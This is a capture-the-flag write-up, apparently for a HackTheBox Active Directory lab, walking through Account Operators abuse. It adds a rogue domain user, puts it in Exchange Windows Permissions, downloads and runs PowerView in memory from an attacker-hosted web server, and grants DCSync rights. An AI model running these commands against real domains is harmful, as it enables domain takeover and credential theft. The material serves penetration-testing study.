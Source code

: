* We see that <mark style="color:yellow;">svc-alfresco</mark> is a member of the <mark style="color:yellow;">SERVICE ACCOUNTS</mark> group who is a member of <mark style="color:yellow;">PRIVILEGED IT ACCOUNTS</mark> who is a member of <mark style="color:red;">ACCOUNT OPERATORS</mark>.
  * <mark style="color:red;">ACCOUNT OPERATORS</mark> is a special group in Windows where you can create accounts and place them into different groups.

#### Definition

Account Operators Group

This group grants limited account creation privileges to a user.

### Exploitation

<mark style="color:red;">Adding a user</mark>

```
net user hacker Pwned123 /add /domain
```

* You should see "The command completed successfully"

<mark style="color:red;">Add the user (hacker) to the group "Exchange Windows Permissions"</mark>

```
net group "Exchange Windows Permissions" /add hacker
```

* You should see "The command completed successfully"

<mark style="color:red;">Confirm your changes, you should see "hacker"</mark>

```
net group "Exchange Windows Permissions"

Members

-------------------------------------------------------------------------------
hacker
The command completed successfully.
```

### Granting DCSync Rights to our new user 'hacker'

Copy/paste the raw portion of PowerView.ps1 and place it into a file called PowerView.ps1

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

Begin a web server in the directory you placed PowerView.ps1 and run over the network

```
IEX(New-Object Net.WebClient).downloadstring('http://10.10.16.17:8000/PowerView.ps1')
```

Adding Domain Object

```
$pass = convertto-securestring 'Pwned123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB\Hacker', $pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity hacker -Rights DCSync
```
